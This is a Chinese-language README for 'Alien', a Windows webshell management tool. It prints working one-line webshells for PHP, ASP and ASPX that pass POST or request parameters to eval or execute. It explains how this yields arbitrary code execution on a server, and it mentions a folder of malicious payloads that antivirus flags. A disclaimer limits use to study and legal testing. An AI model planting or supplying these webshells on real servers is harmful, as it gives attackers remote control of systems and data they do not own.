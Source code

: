 # Alien

網站管理工具

## Author
- [@ISSAC](https://www.github.com/malbuffer4pt)

# 免責聲明
工具只限用於學習用途，網站管理和合法滲透測試，不可用於非法用途。\
如非法使用則後果自負。

## 工具平台
Windows

## 語言
C# .NET Framework V4.8

## 一句話木馬
一句話木馬是在滲透測試中用來控制伺服器的工具\
強大之處在於木馬本身體積小，不易發現\
以下是最簡單的一句話木馬

- PHP
```<?php @eval($_POST['password']);?>```
- ASP
```<%execute(request("password"))%>```
- ASPX
```<%@ Page Language="Jscript"%><%eval(Request.Item["password"])%>```

當然, Alien還可以使用asmx, ashx的Webshell。

## 伺服器
Windows Linux Unix MacOS

## Database管理
- MySQL : PHP
- Access : https://github.com/malbuffer4pt/DBer
- SQL Server : ASP ASPX ASMX ASHX

## 原理
以PHP為例子, eval()可以把string以PHP Code去執行，\
如果eval()中帶有可控變數，那麼就可以執行任意程式碼。\
如eval($_POST['a']);\
HTTP POST a=phpinfo(); 就可以執行phpinfo();

## 注意!
- 工具Payloads資料夾內有符合惡意程式的Payload, 可能會被防毒刪除
- 目前只有刪減版，但部份程式碼沒有刪除，Disassemble應該會有奇怪但無法使用的東西

## 圖片
![5](https://github.com/malbuffer4pt/Alien/blob/main/5.png)
![1](https://github.com/malbuffer4pt/Alien/blob/main/1.png)
![2](https://github.com/malbuffer4pt/Alien/blob/main/2.png)
![3](https://github.com/malbuffer4pt/Alien/blob/main/3.png)
![4](https://github.com/malbuffer4pt/Alien/blob/main/4.png)

## 致謝
研究webshell的各位前輩
